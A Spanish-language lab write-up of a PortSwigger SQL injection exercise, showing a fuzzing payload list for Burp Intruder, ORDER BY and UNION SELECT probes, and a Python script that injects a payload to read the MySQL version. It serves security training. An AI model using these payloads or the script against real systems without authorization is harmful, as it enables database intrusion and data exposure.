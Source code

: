 ```yaml
---
title: "08 SQLi attack, querying the database type and version on MySQL & Microsoft"
collection: publications
category: portswigger
permalink: /publications/08_SQLi attack, querying the database type and version on MySQL & Microsoft
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que consulta el tipo y la versión de la base de datos en bases de datos de Microsoft y MySQL.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi attack, querying the database type and version on MySQL & Microsoft'
---
```


![logo]({{site.url}}/images/SQLi/sqli-7/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-7/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, visualice la cadena de versión de la base de datos.

## Determinamos que el campo si es vulnerable

Ingresamos una lista de payloads y ejecutamos con Burpsuite

```javascript
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		addition, concatenate (or space in url)
||		(double pipe) concatenate
%		wildcard attribute indicator
@variable	local variable
@@variable	global variable
```

![Intruder]({{site.url}}/images/SQLi/sqli-8/Intruder.png)

![Intruder]({{site.url}}/images/SQLi/sqli-8/resultado.png)

Y probamos uno de los resultados

![Intruder]({{site.url}}/images/SQLi/sqli-8/resultado2.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1#
' ORDER BY 2#
```

![Intruder]({{site.url}}/images/SQLi/sqli-8/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', en esta ocación que es BD MySQL necesitamos comentar con #.
Los 2 campos son de tipo `String`

```javascript
' UNION SELECT 'A', NULL#
' UNION SELECT NULL, 'A'# 
' UNION SELECT 'A', 'A'#
```

![String]({{site.url}}/images/SQLi/sqli-8/campos string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD MySQL

```javascript
' UNION SELECT 'A', @@version#
```

![DB version]({{site.url}}/images/SQLi/sqli-8/version.png)

## Aprobado 

![Aprobado]({{site.url}}/images/SQLi/sqli-8/Aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def explot_sqli_version(url):
    path = "/filter?category=Gifts"
    sql_payload = "' UNION SELECT @@version, NULL#"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    soup = BeautifulSoup(res, 'html.parser')
    version = soup.find(string=re.compile(r'.*\d{1,2}\.\d{1,2}\.\d{1,2}.*'))
    if version is None:
        return False
    else:
        print("[-] The database version is: " + version)
        return True

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    print("[+] Dumping the version of  the database...")
    if not explot_sqli_version(url):
        print("[-] Unable to dump the database version.")
```